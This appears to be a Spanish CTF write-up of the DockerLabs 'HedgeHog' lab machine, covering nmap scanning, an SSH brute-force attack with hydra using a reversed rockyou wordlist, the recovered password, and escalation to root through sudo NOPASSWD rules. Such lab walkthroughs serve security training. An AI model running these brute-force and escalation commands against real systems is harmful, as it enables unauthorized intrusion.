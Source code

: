 # 🖥️ Writeup - HedgeHog 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip hedgehog.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh hedgehog.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 18:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 34:0d:04:25:20:b6:e5:fc:c9:0d:cb:c9:6c:ef:bb:a0 (ECDSA)
|_  256 05:56:e3:50:e8:f4:35:96:fe:6b:94:c9:da:e9:47:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y observamos lo siguiente:

![alt text](../images/tails.png)

Es posible que `tails` sea un usuario del sistema, por lo que intentamos obtener credenciales mediante un ataque de `fuerza bruta` por `SSH`.

# FUERZA BRUTA

```bash
hydra -l tails -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 60
```

Tras un tiempo, no conseguimos resultados.

Probamos a invertir el diccionario e iniciar la `fuerza bruta` desde el final. Esto tendría sentido, ya que `tails` (cola) podría ser una pista de que las credenciales se encuentran al final del diccionario.

```bash
tac /usr/share/wordlists/rockyou.txt > rockyou_reversed.txt
```

Reintentamos la `fuerza bruta` con el nuevo diccionario.

```bash
hydra -l tails -P rockyou_reversed.txt 172.17.0.2 ssh -t 60
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-11 17:40:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
```
Hemos obtenido credenciales para el usuario `tails` : `3117548331`. 
Accedemos por SSH.

```bash
ssh tails@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.
```bash 
sudo -l
```

Info:
```
User tails may run the following commands on e975f87013d2:
    (sonic) NOPASSWD: ALL
```

Comprobamos que podemos pivotar al usuario `sonic` sin necesidad de proporcionar ninguna contraseña.

```bash
sudo -u sonic bash
```

Una vez autenticados como `sonic`, revisamos de nuevo permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
User sonic may run the following commands on e975f87013d2:
    (ALL) NOPASSWD: ALL
```

Vemos que también podemos escalar a `root` sin necesidad de credenciales adicionales.

```bash
sudo su
```

Info:
```
root@e975f87013d2:/home/tails# whoami
root
root@e975f87013d2:/home/tails#
```

Ya somos root!